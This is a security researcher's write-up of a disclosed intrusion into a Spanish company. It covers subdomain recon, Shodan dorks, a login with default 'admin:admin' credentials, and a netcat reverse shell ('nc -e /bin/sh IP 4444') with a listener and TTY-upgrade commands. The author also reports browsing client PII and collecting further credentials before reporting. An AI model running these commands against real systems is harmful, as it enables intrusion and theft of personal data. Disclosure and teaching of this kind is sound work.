

# Introduction
Hello again, I've been making some audits at this time. I had a great time breaking misconfigurations & vulnerabilites on Companys.<br>
Well I'm going to disclouse the techniques that I use, and how I obtain a RCE on a Multi-Million Dollar Company which have HQ in Spain.<br>

# Advice
**All the information detailed here are going to be pixeled and the name of the Company are not going to be revealed. Only I mention the technique that I use commonly to discover vulnerabilites into Companys.**<br>

**All the domains I show in the document are only examples, the company affected is not revealed.**

# Achieved
*Enumeration of the subdomains of the Corp.*<br>
*Default admin credentials left on a subdomain.*<br>
*The default credentials leads into a RCE.*<br>
*Generating a Connection between my machine and the company server.*<br>

# Enumeration & First Steps
Always when I go to start to make a pentest to a corp, I firstly recopile all the info about domains associated with the corp & subdomains.<br>
For that I follow a those steps:

## WebPage Certificate

Firstly i go into the main webpage of the corp and I see the SSL Certificate that the use and if I can get extra info about the corp.


**This screenshot of that certificate is not from the Corp Affected**, is from correosexpress like a sample.<br>

## Obtaining Domains Via Organization Certificate.

After I see the Organization of the Corp affected, I made a little recon using his Organization Name, on this case I'm going to use the Organization of correos like sample.<br>

So I use two different ways to recopile domains from the organization. The first is directly & the second indirectly.

### First Method(DomainCollector).

I use to extract domains directly from a Organization using [DomainCollector](https://github.com/Cyber-Guy1/domainCollector).<br>
A great tool developed by [Cyber-Guy1](https://github.com/Cyber-Guy1)

To obtain domains with the Organization Name with DomainCollector we need to execute this following lines on the terminal:

``` bash
sudo apt install git python3 python3-pip
git clone https://github.com/Cyber-Guy1/domainCollector
pip3 install -r requirements.txt
python3 domainCollector.py "Correos Express Paqueteria Urgente SA"
```

After that I got a .txt with the name of the Organization with the following domains:

```
correosexpress.pt
correosexpress.com
www.cexpr.es
www1.cexpr.es
chronoexpres.com
```

### Second Method (Indirectly)

I use shodan for all the recons I make, because shodan give us too much servers that we can obtain via SubdomainFinder.

I use the following dorks in Shodan to discover servers.

`ssl.cert.subject.cn:*.correosexpress.com`
`ssl:"correosexpress.com" 200`

And I obtain the following responses:


On the second Screenshot I remark that I can see the Organization of CorreosExpress. If I click on this Org:


I can see here the total results are different on this query, and I got differents servers with the org search.

# Obtaining Subdomains from main domain.

This is one of the most important steps to make a great recon.<br>

I use a tool created by again CyberGuy1. Which is [Subdomainer](https://github.com/Cyber-Guy1/Subdomain), is a great tool due to the tool implements other tools of Domain Gathering like Sublist3r, Amass, Github-Search....<br>

The proyect has been marked as Deprectated, but I made some changes on the code of subdomainer.sh making the program availble again with the tools that I want to use. I use python 3.10.2 to run the code.


Running the subdomainer.sh the script start to run the different tools.<br>
On the last part the script use a tool with the name `httpx`. Which check if the subdomains obtained with the differents tools are alive.

After that, the script save all the information in a folder with all the info recopiled and a all-live.txt with the alive subdomains.


# The history who leads into a RCE in a Multi-Million Dollar Company.

## Recon
Well I show the techniques that I use to made a recon of the corp.
But Now I'm going to explain what happen to leads into a RCE.<br>

On the company affected I first choose to go against the subdomains obtained via Subdomainer. I spent several hours trying to detect any vulnerability but everything was really well set up, there were no typical bugs, no misconfigurations and all the endpoints found were restricted.<br>

I was really surprised because so far the security on the subdomains was very good.<br>

But I decided to move into the servers I got from shodan. And theres when all start to change.

Before found the RCE on one server, I found other servers with some misconfigurations but nothing with high severity and critical.

But go into the server when I found the RCE.

## Login & RCE

The subdomain is a automation server with tasks scheduled and have a command line to execute commands on the server. And this is the heavy point.

For execute commands you need a valid credentials login.

And I always on a login panel I trie the default credentials:<br>
`admin:admin`<br>

And after send the requests I got redirected to the main panel.

So YES, I got an access with **admin default credentials**, a very serious error by the admin.



And Now I see the Commands tab, when I entry and I see what Can I do, so I got the Idea of obtain a reverse shell to my machine.

So firstly I go to [PentestMonkey Reverse Shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), on this site we have differents cheat sheet, but actually I look the Cheat Sheet of Reverse Shells.

After that I select the following command to establish a connection to my machine:

``` bash
nc -e /bin/sh IP 4444
```

But before we need to listen in the port 4444 on my machine:

``` bash
nc -nlvp 4444
```

After that I'm going to execute the command to establish connection with the remote server.


And a few seconds later.... I got a connection received on my machine.


After that I can retrieve information from the server. Which it have files with PII data from their clients and their partners.

Also for a better movement inside the server, I made the tty more interactive with the following commands:

``` bash
script /dev/null -c bash
    Script started, file is /dev/null
```

``` bash
USER@host:/$ ^Z
    bash: suspended  nc -nlvp 4444
```

``` bash
stty raw -echo; fg
```

```
[1]  + continued  nc -nlvp 4444
                              reset
reset: unknown terminal type unknown
Terminal type? xterm
```


And now the tty is more interactive and easier to go deep into de server.<br>
Also I obtain the source code of some subdomains of the corp.<br>
Inside the subdomains I obtain some other credentials from backup hosting and more....<br>
But after all I decide to stop and report it immediately.

# Status of the Report.

I report all this to the Company affected, actually the company know about this and they fix the default credentials of the admin.

# Recommendations for the company.

Well I've been talking with the company and I only have good words for them, professional people and they take seriously their security.

The server which I has access was a docker environment, a very good measure of security to isolate and doesn't can to pivot inside the net to reach other servers.

But I recommend them to move the PII data of their clients/partners to a secure server with no exposure to internet.

# Conclusion

That was a funny target and very easy entry but fun atleast because I got access to a Remote Command Execution in the Server.

Maybe in the future I make more posts disclosing vulnerabilities I found.

Thanks for reading. ;)

# Bibliography
https://github.com/Cyber-Guy1/domainCollector<br>
https://github.com/Cyber-Guy1/Subdomain<br>
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet<br>